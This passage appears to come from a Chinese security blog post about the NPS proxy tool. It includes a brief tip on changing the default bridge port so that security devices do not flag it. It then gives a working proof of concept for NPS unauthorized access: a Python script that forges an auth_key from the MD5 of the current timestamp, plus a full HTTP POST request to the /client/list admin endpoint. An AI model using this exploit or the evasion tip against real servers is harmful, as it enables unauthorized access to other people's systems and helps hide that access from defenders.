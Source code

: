   
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6siciblXiawmg6w2ghWibjYoXVVWjzjweialr5wvc725RQo74BJoCkGZS7oA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  

```
bridge_port
```

  
的默认端口默认为
```
8024
```

  
，这里不建议改为默认的，连接客户端的时候可能会触发安全设备规则  
##### NPS未授权复现  
  
POC  

```
#encoding=utf-8
import time
import hashlib
now = time.time()
m = hashlib.md5()
m.update(str(int(now)).encode(&#34;utf8&#34;))
auth_key = m.hexdigest()

print(&#34;Index/Index?auth_key=%s&timestamp=%s&#34; % (auth_key,int(now))

```

  
直接访问  
> http://vps:port?payload  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6X1kQ2E8R6EIztwib11HAkqQeyhF5CrkS8ms5IkpqO95HXhed3U7jibnw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
exp请求接口  

```
POST /client/list HTTP/1.1
Host: vps:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://vps:port
Connection: close
Referer: http://vps:port/client/list

search=&order=asc&offset=0&limit=10&auth_key=805df7d1f7bf3b662939ca091174e6b4&timestamp=1659948547

```
